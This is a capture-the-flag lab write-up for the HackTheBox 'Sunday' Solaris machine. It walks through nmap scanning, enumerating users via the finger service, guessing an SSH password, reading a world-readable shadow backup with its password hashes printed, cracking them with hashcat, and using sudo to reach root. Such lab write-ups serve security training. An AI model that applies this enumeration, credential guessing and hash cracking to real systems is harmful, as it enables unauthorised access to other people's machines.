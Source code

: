 1,Recon
port scan
```
nmap -sT -p- --min-rate 5000 -oA nmap/alltcp 10.10.10.76
Starting Nmap 7.70 ( https://nmap.org ) at 2018-05-03 11:08 EDT
Warning: 10.10.10.76 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.10.76
Host is up (0.096s latency).
Not shown: 61176 filtered ports, 4355 closed ports
PORT      STATE SERVICE
79/tcp    open  finger
111/tcp   open  rpcbind
22022/tcp open  unknown
65258/tcp open  unknown

nmap -sV -sC -p 79,111,22022,65258 -oA nmap/scripts 10.10.10.76
Starting Nmap 7.70 ( https://nmap.org ) at 2018-05-03 11:11 EDT
Nmap scan report for 10.10.10.76
Host is up (0.096s latency).

PORT      STATE SERVICE   VERSION
79/tcp    open  finger    Sun Solaris fingerd
| finger: Login       Name               TTY         Idle    When    Where\x0D
| sunny    sunny                 pts/1            Thu 14:52  10.10.14.245        \x0D
| sunny    sunny                 pts/2          4 Thu 13:55  10.10.15.182        \x0D
| sunny    sunny                 pts/4          2 Thu 13:55  10.10.16.94         \x0D
| sunny    sunny                 pts/5          8 Thu 14:52  10.10.15.42         \x0D
| sunny    sunny                 pts/6         21 Thu 14:14  10.10.14.120        \x0D
| sunny    sunny                 pts/7          2 Thu 14:32  10.10.15.138        \x0D
| sunny    sunny                 pts/8         49 Thu 14:20  10.10.15.167        \x0D
| sunny    sunny                 pts/9          9 Thu 14:28  10.10.14.122        \x0D
| sammy    sammy                 pts/10           Thu 15:07  10.10.14.78         \x0D
| sunny    sunny                 pts/11         1 Thu 15:06  10.10.16.73         \x0D
| sammy    sammy                 pts/12         4 Thu 14:44  10.10.15.38         \x0D
| sammy    sammy                 pts/13           Thu 15:10  10.10.15.182        \x0D
|_sammy    sammy                 pts/14         1 Thu 15:06  10.10.15.213        \x0D
111/tcp   open  rpcbind   2-4 (RPC #100000)
22022/tcp open  ssh       SunSSH 1.3 (protocol 2.0)
| ssh-hostkey:
|   1024 d2:e5:cb:bd:33:c7:01:31:0b:3c:63:d9:82:d9:f1:4e (DSA)
|_  1024 e4:2c:80:62:cf:15:17:79:ff:72:9d:df:8b:a6:c9:ac (RSA)
65258/tcp open  smserverd 1 (RPC #100155)
Service Info: OS: Solaris; CPE: cpe:/o:sun:sunos

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 40.97 seconds
```

The finger daemon listens on port 79, and is really a relic of a time when computers were far too trusting and open. It provides status reports on logged in users. It can also provide details about a specific user and when they last logged in and from where.
Finger守护进程侦听端口 79，它实际上是计算机过于信任和开放的时代的遗迹。它提供登录用户的状态报告。它还可以提供有关特定用户以及他们上次登录的时间和地点的详细信息。

Running finger @[ip] will tell us of any currently logged in users:
```
finger @10.10.10.76
No one logged on
```

finger can also check for details on a specific user. Try one that doesn’t exist:
```
inger wither@10.10.10.76
Login       Name               TTY         Idle    When    Where
wither                ???
```

Then let's check what we have got from nmap
```
(wither㉿localhost)-[~/Templates/htb-labs/Sunday]
└─$ finger sunny@10.10.10.76
Login       Name               TTY         Idle    When    Where
sunny           ???            ssh          <Apr 13, 2022> 10.10.14.13         
                                                                                      
┌──(wither㉿localhost)-[~/Templates/htb-labs/Sunday]
└─$ finger sammy@10.10.10.76
Login       Name               TTY         Idle    When    Where
sammy           ???            ssh          <Apr 13, 2022> 10.10.14.13 
```

With two known accounts, and ssh, it’s worth guessing a few passwords. I always try admin, root, the box name, and any defaults for the application. Turns out sunny/sunday works:
```
ssh -p 22022 sunny@10.10.10.76
Password: sunday
Last login: Thu May  3 15:25:35 2018 from 10.10.14.12
Sun Microsystems Inc.   SunOS 5.11      snv_111b        November 2008
sunny@sunday:~$ pwd
/export/home/sunny
sunny@sunday:~$ id
uid=65535(sunny) gid=1(other) groups=1(other)
```

Inside /backup there’s a copy of a shadow file that is world readable:
```
sunny@sunday:/backup$ ls -l
total 2
-r-x--x--x 1 root root  53 2018-04-24 10:35 agent22.backup
-rw-r--r-- 1 root root 319 2018-04-15 20:44 shadow.backup

sunny@sunday:/backup$ cat shadow.backup
mysql:NP:::::::
openldap:*LK*:::::::
webservd:*LK*:::::::
postgres:NP:::::::
svctag:*LK*:6445::::::
nobody:*LK*:6445::::::
noaccess:*LK*:6445::::::
nobody4:*LK*:6445::::::
sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::
sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636::::::
```

Then we just need to use hashcat to crack them
```
 hashcat -m 7400 sunday.hashes /usr/share/wordlists/rockyou.txt --force
...[snip]...
$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:sunday
$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:cooldude!
...[snip]...
```

When we check `sudo -l`
```
User sammy may run the following commands on sunday:
    (ALL) ALL
    (root) NOPASSWD: /usr/bin/wget

```
Then we just need to `sudo su `and input the password, then get the root shell.
